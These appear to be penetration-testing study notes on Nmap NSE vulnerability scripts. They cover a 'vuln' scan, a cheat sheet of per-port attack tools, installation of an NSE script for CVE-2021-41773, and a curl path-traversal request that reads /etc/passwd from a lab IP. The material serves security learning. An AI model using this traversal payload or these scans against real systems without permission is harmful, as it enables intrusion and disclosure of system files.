




# NMAP Vulnerability Scripts


### All scripts are located at:
```
cd /usr/share/nmap/scripts/
```

#### An NSE script can have more than one category. For example, it can be categorized as safe and vuln, or intrusive and vuln. Scripts categorized as "safe" have no potential impact to stability, while scripts in the "intrusive" category might crash a target service or system.
```bash
sudo nmap -sV -p 443 --script "vuln" 192.168.50.124

#cheat sheet for common ports:
| Port | Service | Tools/Actions |
|------|---------|---------------|
| 21 | FTP | ftp-anon, ftp-vuln scripts, try anonymous login |
| 22 | SSH | Check version, hydra for brute force |
| 25 | SMTP | smtp-enum-users, vrfy script |
| 53 | DNS | dns-brute, zone transfer attempts |
| 80/443 | HTTP/HTTPS | gobuster, nikto, whatweb |
| 139/445 | SMB | enum4linux, smb-vuln scripts |
| 389 | LDAP | ldap-search, ldapenum |
| 3306 | MySQL | mysql-enum, manual login attempt |
| 3389 | RDP | rdp-vuln scripts, check for BlueKeep |
```


## Working with NSE Scripts

#### After you identify a potential CVE, google it:

```
CVE-2021-41773 NSE
```


#### Leads to a script



#### Let's download this script and save it as /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse to comply with the naming syntax of the other NSE scripts. Before we can use the script, we'll need to update script.db with --script-updatedb.

```bash
sudo nano http-vuln-cve-2021-41773.nse

# Paste the script

sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse

# Make sure to update your database

sudo nmap --script-updatedb

# To use the NSE script, we'll provide the name of the script, target information, and port number. We'll also enable service detection.

sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.139.13

```


### Curl the provided address

```bash
Previous results:  
# Verify arbitrary file read: https://192.168.139.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 

curl --path-as-is http://192.168.139.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
